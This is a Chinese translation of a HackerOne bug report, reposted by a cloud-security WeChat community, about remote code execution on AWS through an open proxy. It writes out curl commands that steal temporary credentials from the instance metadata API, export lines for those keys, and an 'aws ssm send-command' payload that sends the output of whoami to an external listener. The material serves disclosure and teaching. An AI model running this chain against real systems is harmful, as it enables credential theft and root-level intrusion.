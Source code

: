 #  AWS：代理服务器上的远程代码执行（hackerone漏洞报告）   
原创 樱宁  火线Zone   2022-07-05 18:00  
  
本文为翻译文章，原文地址:https://hackerone.com/reports/401136  
  
  
  
介绍  
  
  
  
  
  
  
  
  
  
  
  
我在用于跟踪研究人员活动的代理服务上发现了这个远程代码执行 (RCE) 漏洞。这是我进一步了解 AWS 的机会，特别是 AWS EC2 Systems Manager 与开放元数据 API 相结合的危险。  
  
出于礼貌，我在披露之前将这篇文章发送给了该组织。不幸的是，官方明确要求匿名披露，因此需要大量编辑。尽管省略了一部分细节，但我认为这篇文章仍是很有价值的。  
  
  
  
漏洞细节  
  
  
  
  
  
  
  
  
  
  
  
为了方便研究人员进行访问，某些程序的代理服务允许访问 AWS 的元数据 API。该元数据 API 又被配置为公开 AWS EC2 Run Command 角色的临时 AWS 访问凭证。当此角色由 AWS 客户端（例如 CLI）承担时，可以在 AWS EC2 实例上执行任意命令。  
  
  
**获取AWS密钥**  
  
  
首先，我们将使用 curl 并证明 AWS 元数据 API 是可访问的：  
  
```
curl -vv http://169.254.169.254/latest/ -x '52.6.██.███:25603'
```  
  
  
我们利用 curl 通过代理加载 AWS 的元数据 API。由于代理托管在 AWS 上，并且不会阻止到内部 IP 的流量（例如此 API），因此我们能够访问它。  
  
要生成一对临时访问密钥，我们可以运行以下命令：  
  
```
curl -vv http://169.254.169.254/latest/meta-data/iam/security-credentials/runCommand -x '52.6.██.███:25603'
```  
  
  
这个runCommand角色很有趣，让我假设它被用于https://aws.amazon.com/ec2/run-command/。  
  
  
**配置 AWS CLI**  
  
  
首先需要安装一个AWS CLI，然后才能继续：  
  
设置一下环境变量：  
  
```
export AWS_ACCESS_KEY_ID=<"AccessKeyId" you exposed in the last cURL command>
export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey" you exposed in the last cURL commandt>
export AWS_SESSION_TOKEN=<"Token" you exposed in the last cURL command>
```  
  
  
现在，在同一个 shell 会话中，您应该能够通过 CLI 与多个 AWS 服务进行交互。  
  
  
**以root身份执行任意命令**  
  
  
由于角色名称是runCommand我立即选择了 AWS EC2 Systems Manager（特别是aws ssm send-command）。  
  
配置访问密钥后，我运行以下 AWS CLI 命令来证明密钥确实具有足够的权限来执行任意命令：  
  
```
aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.███.███:8080/`whoami`' --output text --region=us-east-1
```  
  
  
在我的服务器上，我在端口 8080 ( nc -vvkl 8080) 上运行了一个 netcat 侦听器，以捕获传入的 curl 请求。  
  
我还选择执行一个快速whoami命令并将其作为 curl HTTP 调用中的路径传递，这样我就可以快速确认什么类型的用户正在执行这些命令。  
  
HTTP请求如下：  
  
```
Connection from [52.73.██.██] port 8080 [tcp/http-alt] accepted (family 2, sport 45163)
GET /root HTTP/1.1
User-Agent: curl/7.35.0
Host: 162.243.███.███:8080
Accept: */*
```  
  
  
这足以证明我可进行命令执行（这些命令以root身份执行的）。  
  
请注意，我只在一个实例上尝试过此操作，但我希望该us-east-1区域中有更多实例允许执行这种类型的命令（并且可能还有其他区域中的实例）。  
  
  
  
  
  
  
**【火线Zone云安全社区群】**  
  
进群可以与技术大佬互相交流  
  
进群有机会免费领取节假日礼品  
  
进群可以免费观看技术分享直播  
  
识别二维码回复**【社区群】**进群  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaTf5R6lHvwO5WVsDRNyynwGQLM4tsY4nTvLyBeGWOtv4GficOaAWl9lhop3l4o7zahn4ib4R5YsW7QQ/640?wx_fmt=jpeg "")  
  
  
**【相关精选文章】**  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247495885&idx=1&sn=585b0ccd99103e60ffc83826e4d367e5&chksm=eaa978eddddef1fb0817487ea6dbff8f840b3766bc19d2e85a925e1a3c0463945943b2cf304d&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247495851&idx=1&sn=93bd8403416a300da9a76241865addc2&chksm=eaa9788bdddef19d6567abdcd3f91f7f8719054d30c9bd2a63b46f2fe9dd7ec94f38cb1df166&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTf5R6lHvwO5WVsDRNyynwGicdWbB2xBTFib0XzJO1ertfuF3jocicHB88Zxn0cfhATzCLHicKju6EaLw/640?wx_fmt=png "")  
  
火线Zone是[火线安全平台]运营的云安全社区，内容涵盖云计算、云安全、漏洞分析、攻防等热门主题，研究讨论云安全相关技术，助力所有云上用户实现全面的安全防护。欢迎具备分享和探索精神的云上用户加入火线Zone社区，共建一个云安全优质社区！  
  
如需转载火线Zone公众号内的文章请联系火线小助手：hxanquan（微信）  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaTf5R6lHvwO5WVsDRNyynwG1OK03VUOHaicOibhdUZUxesnic7VYym0AxpYHDHMVghddk29FTUzjbFAw/640?wx_fmt=jpeg "")  
  
//  火线Zone  
   
//  
  
微信号 : huoxian_zone  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/CkzQxaHZX9KdW919vwagVwhCeicQPXuMGibHcf2WqiaFyvfy5p1oIk1C5SOdtTyLlQmOtEia7FMKicknJzGTmYLWb2Q/640?wx_fmt=gif "")  
  
点击阅读原文，加入社区，共建一个有技术氛围的优质社区！  

